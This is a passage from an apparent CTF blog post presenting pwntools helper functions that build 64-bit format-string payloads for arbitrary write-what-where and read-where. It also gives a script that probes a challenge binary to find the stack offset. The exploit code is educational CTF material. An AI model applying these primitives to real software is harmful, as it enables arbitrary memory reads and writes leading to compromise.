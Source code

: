```python
    for where, what in sorted(words.items(), key=lambda x: x[1]):
        fstring += p64(where)

    return fstring

# read-where->what 64 bit address, format string
def rww64fs(where,base):
    fstring  = b'%' + str(base+1).rjust(5,'0').encode() + b'$s'
    fstring += p64(where)
    return fstring
```

I usually do not do weekday CTFs.  I made an exception when another CTFer asked if I had a format-string library.  I didn't.  However, I said I'd look at the problem and help out.  After solving the problem and refactoring my code I ended up with the above two functions--perhaps the start of a library.

The first function is a format-string _write-what-where_.  Pass in any 64-bit _what_ and any writable 64-bit _where_, and it'll do all the math and generate a format string for you that will write out the _what_ as a series of 16-bit words.  The `count` parameter is number of 16-bit words; if you know that you only have to write out, say, 48-bits (common for x86_64 addresses), then the recommended `4` (64-bits) could be set to `3` (for 3 16-bit words).

The second function is a format-string read-where and return what _is that thing pointing to_.  (I probably need to come up with better names.)

Both functions require a `base`.  This is the location (parameter) in the stack where the format string starts.  It's usually 6, but sometimes 7 or 8 for x86_64.  It is easy to discover using GDB or with a small script like this:

```python
#!/usr/bin/python3

from pwn import *

def scanit(t):
    p = process('./got_it')
    #p = remote('pwn.hsctf.com', 5004)
    p.recvuntil('Give me sumpfink to help me out!\n')
    p.sendline(t)
    _ =  p.recvuntil('worked').split()[-2].split(b'"')[1]
    p.close()
    return _

for i in range(1,20):
    t = '%' + str(i).rjust(2,'0') + '$018p'
    _ = scanit(t)
    print(i,_)
    if _.find(b'0x') >= 0:
        s = bytes.fromhex(_[2:].decode())[::-1]
        if s == t.encode():
            print('base:',i)
            break
```
